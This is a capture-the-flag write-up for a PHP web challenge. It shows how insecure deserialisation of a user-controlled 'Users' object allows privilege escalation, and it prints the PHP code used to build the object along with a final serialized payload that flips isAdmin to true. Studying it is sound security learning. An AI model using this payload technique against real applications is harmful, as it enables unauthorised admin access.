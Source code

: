 Challenge Description :
### What do you know about OOP?

Looking at the landing page, a classic ref to the Source code.

![Alt text](image.png)

Checking the source Code we have a Class Users with the attributes:

![Alt text](image-1.png)

- string -> username
- string -> password
- boolean -> isAdmin
- string -> id

checking for the win condition we need to be admin, That's a simple deserlization attack , since we contrtol the deseralized data we can create an instance of the object in the runtime


Using the original code to create an instance of the class user with Useranme = 0x21AD and password = password cuz we have those two variables 

```
<?php

class Users
{
    private $username;
    private $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}

$user = serialize(new Users("0x21AD" , "yuri"));

echo $user;

?>
```
and we get our payload  :
![Alt text](image-2.png)

#### But we have a prefix `Users` appended to all the attributes values.
All we need to do is to either manually modify the payload or use chatgpt (lazy way)!

Just modify the boolean value of isAdminto be 1 which means True and we get our final working payload:

`O:5:"Users":4:{s:8:"username";s:6:"0x21AD";s:8:"password";s:4:"yuri";s:7:"isAdmin";b:1;s:2:"id";s:0:"";}`


![Alt text](image-3.png)